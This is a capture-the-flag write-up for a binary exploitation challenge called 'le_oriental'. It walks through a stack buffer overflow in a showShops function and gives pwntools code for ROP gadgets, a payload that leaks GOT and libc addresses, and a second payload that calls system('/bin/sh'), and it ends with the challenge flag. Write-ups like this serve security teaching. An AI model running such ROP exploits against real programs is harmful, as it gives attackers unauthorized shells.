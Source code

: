 # le_oriental

## Information
**Category:** |
--- | 
PWN|

**Description:** 
~~~
description
~~~
## Solution
![Alt text](attachments/checksec.png)
![Alt text](attachments/bof_vuln.png)

Using decompiler, Here we can use bof vuln in the function in `showShops` in the `FOMO` option. Because there is no canary protection we can directly overflow the v1 buffer

![Alt text](attachments/underDevelopment.png)

Here we can see the `underDevelopment` function which reads the flag file but this function requires several args like the following in order to be able to read the contents of the file

![Alt text](attachments/aboveDevelopment.png)

Also, Here we can see the `aboveDevelopment` function, but I don't know what to do with this function, but in the function there is `seccomp_setup`


Because here I see that it can be solved using the rop gadget, here I make an exploit by:
- leak got, leak libc
- spawn shells
  
By not calling `aboveDevelopment` we are not also calling `seccomp`, therefore we can call `system`. And also we don't need the `underDevelopment` function because we can read directly from the shell

### ROP
```python
pop_rdi = ROP.find_gadget(["pop rdi", "ret"])[0]
pop_rsi = ROP.find_gadget(["pop rsi", "ret"])[0]
pop_rdx = ROP.find_gadget(["pop rdx", "ret"])[0]
pop_rcx = ROP.find_gadget(["pop rcx", "ret"])[0]
ret = ROP.find_gadget(["ret"])[0]
```
---
### Leak GOT, LIBC and Return to main
```python
offset = 328
p = b"A" * offset
p += p64(pop_rdi)
p += p64(exe.got["alarm"])
p += p64(exe.plt["puts"])
p += p64(ret)
p += p64(pop_rdi)
p += p64(exe.got["__isoc99_scanf"])
p += p64(exe.plt["puts"])
p += p64(ret)
p += p64(exe.sym["main"])
```
After we get the leak, we can use the libc database and get [libc6-amd64_2.36-9+deb12u1_i386.so](libc6-amd64_2.36-9+deb12u1_i386.so) then use it to get the libc base address


---
### Spawn Shell
after returning to main function we can use the same vuln in `showShops` with the **FOMO** option and call `system("bin/sh")` using `libc`

```python
p = b"1"
io.sendlineafter(b">> ", p)
p = b"FOMO"
io.sendlineafter(b">> ", p)

BINSH = next(libc.search(b"/bin/sh"))
SYSTEM = libc.sym["system"]
EXIT = libc.sym["exit"]

p = b"A" * offset
p += p64(pop_rdi) + p64(BINSH) + p64(ret) + p64(SYSTEM) + p64(EXIT)
io.sendlineafter(b"iyakah?? ", p)
```

> NCW2023{1_th0ugh7_4_s1mpl3_R0P_w0ulD_b3_3n0ugh_bu7_4dd1n9_S3CC0MP_15_FuN_h3h3h3}